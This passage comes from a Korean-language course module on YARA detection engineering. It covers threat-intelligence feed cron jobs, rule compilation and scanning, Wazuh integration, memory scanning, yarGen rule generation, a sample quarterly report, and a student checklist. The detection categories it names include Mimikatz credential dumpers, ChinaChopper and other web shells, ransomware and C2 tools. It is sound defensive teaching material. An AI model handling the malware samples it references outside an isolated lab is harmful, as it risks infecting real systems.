  "https://misp.example.com/attributes/restSearch" \
  -d '{"type":"yara","limit":100}' | jq '.response.Attribute[].value' > /tmp/misp-yara.txt

# === 자동 업데이트 cron ===
sudo tee /etc/cron.daily/yara-feed-update.sh > /dev/null << 'CRON'
#!/bin/bash
# OpenCTI feed → YARA 룰 일일 갱신
LOG=/var/log/yara-feed-update.log
echo "[$(date)] Updating YARA from OpenCTI" >> $LOG

# 1. OpenCTI 에서 신규 IOC export
python3 /opt/opencti-yara/sync.py --since "1 day ago" >> $LOG 2>&1

# 2. 룰 검증
yara /tmp/opencti-iocs.yar /dev/null && echo "  ✓ syntax OK" >> $LOG

# 3. 운영 룰셋에 통합
cp /tmp/opencti-iocs.yar /var/ossec/etc/yara/feeds/opencti-$(date +%F).yar

# 4. Wazuh 재시작 (변경 적용)
systemctl restart wazuh-manager 2>> $LOG
CRON
sudo chmod +x /etc/cron.daily/yara-feed-update.sh
```

### 점검 / 작성 / 운영 흐름 (15 step + multi_task 통합)

#### Phase A — 룰 작성 + 스캔 (s1·s2·s3·s4·s5·s6·s7·s8)

```bash
# 1. 모든 룰 통합
mkdir -p ~/yara-rules
for f in mimikatz.yar packers.yar webshell.yar ransomware.yar advanced.yar; do
  cp $f ~/yara-rules/
done

# 2. 통합 syntax 검증
yara -w ~/yara-rules/*.yar /dev/null
# 매칭 없음 + 오류 없음 = 모든 룰 syntax OK

# 3. 모든 룰 일괄 컴파일 (성능)
yarac ~/yara-rules/*.yar ~/yara-rules/all-rules.yarc
# 컴파일된 .yarc 파일 — 빠른 로드

# 4. 실 환경 스캔
yara -r -w ~/yara-rules/all-rules.yarc /var/www/
yara -r -w ~/yara-rules/all-rules.yarc /tmp/
```

#### Phase B — 운영 통합 (s9·s10·s11·s12·s14)

```bash
# 1. 성능 최적화 (s9)
yara -w -p 8 ~/yara-rules/all-rules.yar /var/www/   # 8 thread parallel
yara -w --print-stats ~/yara-rules/all-rules.yar /var/www/

# 2. Wazuh 통합 (s10) — 위 도구 8 참조
ssh ccc@10.20.30.100 'sudo cp ~/yara-rules/all-rules.yarc /var/ossec/etc/yara/'

# 3. 커뮤니티 룰 평가 (s11)
yara -w /tmp/yara-rules/malware/*.yar /usr/bin/   # FP 측정
# 매칭이 많이 나오면 (false positive 많음) — 사용 부적합
yara -w /tmp/signature-base/yara/*.yar /tmp/samples/   # TP 측정

# 4. 메모리 스캔 cron (s12)
sudo tee /etc/cron.hourly/yara-memscan.sh > /dev/null << 'CRON'
#!/bin/bash
for pid in $(pgrep -f -v "(systemd|kthread|kworker)"); do
    timeout 3 yara -w -p $pid /var/ossec/etc/yara/critical.yar >> /var/log/yara-mem.log 2>&1
done
CRON
sudo chmod +x /etc/cron.hourly/yara-memscan.sh

# 5. TI 피드 자동화 (s14) — 위 도구 10 참조
sudo /etc/cron.daily/yara-feed-update.sh
```

#### Phase C — 자동 룰 + 보고 (s13·s15)

```bash
# 1. yarGen 으로 자동 룰
python3 /tmp/yargen/yarGen.py \
  -m /tmp/malware-samples/ \
  -o /tmp/auto-rules.yar \
  --excludegood --opcodes -z 50

# 사람 검토 후 ~/yara-rules/auto-refined.yar 로 정제
vim /tmp/auto-rules.yar
cp /tmp/auto-rules.yar ~/yara-rules/

# 2. 종합 보고서
cat > /tmp/yara-report.md << 'EOF'
# YARA Detection Engineering Report — 2026-Q2

## 룰셋 통계
- 총 룰: 87
- 카테고리: webshell 23 / ransomware 18 / packer 12 / pe 15 / misc 19
- Source: 사용자 작성 35 / yarGen 자동 22 / community import 30
- 평균 severity: high

## 탐지 범위 (악성코드 유형)
- Web shells (PHP/JSP/ASP): 23 룰
- Ransomware: 18 (Crypto API + 랜섬노트 + 확장자 + API 시퀀스)
- Packers: 12 (UPX/Themida/VMProtect + 일반)
- PE 분석: 15 (suspicious imports / sections)
- Mimikatz / credential dumpers: 5
- C2 / RAT: 8
- Cryptominer: 6

## Wazuh 연동
- wodle command: 1h 주기 + run_on_start
- Active Response: yara-quarantine.sh (auto-quarantine)
- 신규 alert 룰: 100800 (level 13)

## 성능 벤치마크
- /var/www (300MB, 5400 파일): 8.2s (single thread), 1.9s (8 thread)
- /tmp (2GB, 20K 파일): 38.4s
- 메모리 스캔 (50 process): 12.1s

## TI 피드 통합
- OpenCTI: 일일 200 IOC 자동 import
- MISP: 주간 yara attribute 50 import
- 누적 hash 룰: 3,247

## 운영 절차
1. 신규 sample 발견 → Hybrid Analysis / Cuckoo 분석
2. yarGen 으로 초안 자동 생성
3. 사람 검토 + 수동 정제 (FP 제거, meta 강화)
4. /usr/bin 으로 FP 검증 (매칭 = 0)
5. /tmp/samples 로 TP 검증
6. 운영 적용 + 7일 모니터링
7. FP 발견 시 룰 보강 또는 화이트리스트
EOF
cat /tmp/yara-report.md
```

#### Phase D — 통합 시나리오 (s99 multi_task)

s1 → s2 → s3 → s4 → s5 를 Bastion 가 한 번에:

1. **plan**: YARA spec → PE 룰 → 패커 룰 → 웹쉘 룰 → 랜섬웨어 룰
2. **execute**: yara 룰 작성 + yarac 컴파일 + 테스트 스캔
3. **synthesize**: 5 산출물 (구조 doc / pe.yar / packers.yar / webshell.yar / ransomware.yar + ATT&CK 매핑)

### 도구 비교표 — YARA 워크플로우 단계별

| 단계 | 1순위 도구 | 2순위 (보완) | 사용 조건 |
|------|-----------|-------------|----------|
| 작성 | yara CLI + IDE (VSCode + YARA syntax) | yara-pyqt | GUI 선호 |
| PE 분석 | YARA + pe module + pefile | DIE / pestudio | GUI 검증 |
| 패커 탐지 | YARA + entropy + DIE | PEiD (legacy) | DIE 권장 |
| 웹쉘 | YARA + neopi | shellscan / Quttera | 통계 통합 |
| 랜섬웨어 | YARA + Loki + signature-base | malwarebytes | OSS 만 |
| 룰 자동 생성 | yarGen | YarGen-Improved fork | 향상판 |
| 메모리 스캔 | yara -p / Volatility yarascan | Hayabusa (Windows) | 플랫폼 |
| TI 통합 | OpenCTI / MISP → 변환 스크립트 | YARA-Fusion | 자동화 |
| Wazuh 연동 | wodle + Active Response | Velociraptor | EDR 강 |
| CI 검증 | yara-validator + GitHub Actions | yarawatch | 변경 감지 |
| 분산 스캔 | Klara | YARA-CI | 스케일 |
| 룰 저장소 | git + 표준 디렉터리 | YARA-Rules fork | 커뮤니티 |

### 도구 선택 매트릭스 — 시나리오별 권장

| 시나리오 | 우선 도구 | 이유 |
|---------|---------|------|
| "처음 YARA 도입" | yara + signature-base + Loki | 즉시 실 환경 적용 |
| "웹쉘 집중 탐지" | YARA-Rules webshells/ + neopi | 카테고리 특화 |
| "랜섬웨어 대응" | signature-base + Loki + Wazuh AR | 격리 + 알림 |
| "fileless / 메모리" | yara -p + Volatility yarascan | 메모리 전용 |
| "TI 자동화" | OpenCTI + 변환 cron | IOC pipeline |
| "신규 위협 빠른 룰" | yarGen + 사람 정제 | 24h 내 |
| "regulator audit" | 룰 카탈로그 + ATT&CK 매핑 + 보고서 | 정량 |
| "분산 환경 (TB+)" | Klara | 스케일 |

### YARA 종합 보고서 (s15 산출물)

```
=== YARA Detection Engineering Report — 2026-Q2 ===
작성: 2026-05-02
대상: 사용자 정의 + 자동 생성 + community 룰셋

1. 룰셋 통계
   - 총: 87
   - Source: user 35 / yarGen 22 / community 30
   - 카테고리: webshell 23 / ransomware 18 / packer 12 / pe 15 / misc 19

2. 탐지 범위 (악성코드 유형별)
   - Web shells: 23
   - Ransomware (Crypto API + note + 확장자 + API 시퀀스): 18
   - Packers (UPX/Themida/VMProtect + 일반): 12
   - PE suspicious: 15
   - Mimikatz / credential dumpers: 5
   - C2 / RAT: 8
   - Cryptominer: 6

3. Wazuh 연동
   - wodle command: 1h 주기 + run_on_start
   - Active Response: yara-quarantine.sh (auto-quarantine)
   - 신규 alert 룰: 100800 (level 13, alert_by_email)

4. 성능 벤치마크
   - /var/www (300MB, 5400 파일): 8.2s single / 1.9s 8-thread
   - /tmp (2GB, 20K 파일): 38.4s
   - 메모리 스캔 (50 process): 12.1s

5. TI 피드 통합
   - OpenCTI: 일일 200 IOC 자동 import
   - MISP: 주간 yara attribute 50 import
   - 누적 hash 룰: 3,247

6. 운영 통계 (7일)
   - 일일 매칭 평균: 18 (FP 4 = 22%)
   - True Positive: 14/18 (78%)
   - 격리 자동: 14건 (Active Response)
   - SOC 검토: 18건 (Tier 1 평균 4.2분/건)

7. 다음 분기 plan
   - yarGen 자동 룰 사람 정제 cycle 단축 (현재 평균 3일 → 1일)
   - Hayabusa 추가 (Windows EVTX + YARA 매칭)
   - YARA-CI 도입 (분산 스캔 → enterprise 전체 자산)
   - signature-base upstream PR 5건 contribute
```

### 학생 셀프 체크리스트 (각 step 완료 기준)

- [ ] s1: 표준 룰 양식 (meta 8 필드 / strings 4 유형 / condition) 1개 작성
- [ ] s2: PE 룰 — pe.is_pe + pe.imports + pe.number_of_sections + filesize
- [ ] s3: UPX + Themida + VMProtect + 일반 entropy 룰 4개
- [ ] s4: PHP/JSP/ASP/c99/ChinaChopper 5종 웹쉘 룰
- [ ] s5: Crypto API + 랜섬노트 + 확장자 + API 시퀀스 4종 랜섬웨어 룰
- [ ] s6: for / of / # / @ 모두 사용한 advanced 룰 1개
- [ ] s7: math.entropy + hash.sha256 + cuckoo / elf module 사용
- [ ] s8: /var/www 실 스캔, 매칭 결과 분석
- [ ] s9: yarac 컴파일 + -p 8 thread + --print-stats 성능 측정
- [ ] s10: Wazuh wodle command + Active Response (yara-quarantine.sh)
- [ ] s11: signature-base / YARA-Rules / Awesome YARA 평가 (FP/TP/coverage)
- [ ] s12: yara -p PID + Volatility linux.yarascan
- [ ] s13: yarGen --excludegood --opcodes -z 50 + 사람 정제
- [ ] s14: OpenCTI IOC → YARA 변환 + 일일 cron
- [ ] s15: REPORT.md 7 섹션 (통계/탐지 범위/연동/성능/TI/운영/다음)
- [ ] s99: Bastion 가 5 룰 (구조/PE/패커/웹쉘/랜섬웨어) 순차 작성

### 추가 참조 자료

- **YARA 공식** https://virustotal.github.io/yara/
- **YARA-Rules** https://github.com/Yara-Rules/rules — 수천 룰
- **Awesome YARA** https://github.com/InQuest/awesome-yara
- **Florian Roth signature-base** https://github.com/Neo23x0/signature-base
- **Loki IOC scanner** https://github.com/Neo23x0/Loki
- **yarGen** https://github.com/Neo23x0/yarGen
- **Klara** https://github.com/KasperskyLab/klara
- **Malpedia** https://malpedia.caad.fkie.fraunhofer.de/
- **Wazuh + YARA integration** https://documentation.wazuh.com/current/proof-of-concept-guide/detect-malware-yara-integration.html
- **OpenCTI** https://www.opencti.io/
- **STIX2 → YARA converter** https://github.com/marirs/yara-rules-converter
- **Detect It Easy** https://github.com/horsicq/Detect-It-Easy

위 모든 YARA 룰 작성·테스트는 **격리 lab + sample 검증** 으로 수행한다. 신규 룰 운영 적용
전 (1) `/usr/bin` (정상) 스캔 → FP 0 건 (2) `/tmp/samples` (악성) 스캔 → TP 매칭 (3)
staging Wazuh 24h 운영 (4) 운영 적용. **랜섬웨어 sample 다룰 때는 격리 VM 만**, 절대
운영 호스트에서 실행 금지. **Active Response 설정 시 격리 디렉터리 권한 (chmod 000)** 필수
— 격리된 파일이 다시 실행 안 되도록.
